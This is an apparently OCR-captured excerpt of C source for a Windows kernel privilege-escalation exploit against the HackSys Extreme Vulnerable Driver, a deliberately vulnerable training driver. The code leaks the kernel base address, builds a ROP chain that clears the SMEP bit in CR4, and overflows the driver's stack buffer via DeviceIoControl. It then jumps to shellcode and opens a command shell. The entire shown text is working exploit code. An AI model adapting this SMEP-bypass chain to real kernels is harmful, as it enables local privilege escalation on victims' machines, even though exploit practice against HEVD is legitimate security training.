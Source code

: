 ```c
        printf("[-] Failed to allocate heap for lpImageBase\n");
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers: %d", GetLastError());
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    pKernelBaseAddress = ((ULONG_PTR*)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[*] Kernel Base Address: %llx\n", pKernelBaseAddress);

    return pKernelBaseAddress;
}

int main()
{
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        return 1;
    }
    ULONG_PTR ntBase = GetKernelBaseAddress();

    QWORD POP_RCX = ntBase + 0x207c53;      // adjust offset according to your kernel build
    QWORD MOV_CR4_RCX = ntBase + 0x4bc9a7;  // adjust offset according to your kernel build

    printf("[>] POP_RCX: 0x%llx\n", POP_RCX);
    printf("[>] MOV_CR4_RCX: 0x%llx\n", MOV_CR4_RCX);

    LPVOID uBuffer = VirtualAlloc(NULL, 2500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    int bufSize = 2072 + 4 * 8;
    memset(uBuffer, 0x41, bufSize);
    
    RtlCopyMemory(shellcode, sc, 256);

    QWORD* rop = (QWORD*)((QWORD)uBuffer + 2072);
    int index = 0;

    *(rop + index++) = POP_RCX;
    *(rop + index++) = 0x370e78 ^ 1UL << 20;
    *(rop + index++) = MOV_CR4_RCX;
    *(rop + index++) = (QWORD)shellcode;

    DeviceIoControl(hDriver, 0x222003, uBuffer, 2500, NULL, 0, NULL, NULL);

    printf("[>] Enjoy your shell!\n", ntBase);
    system("cmd");

    return 0;
}
```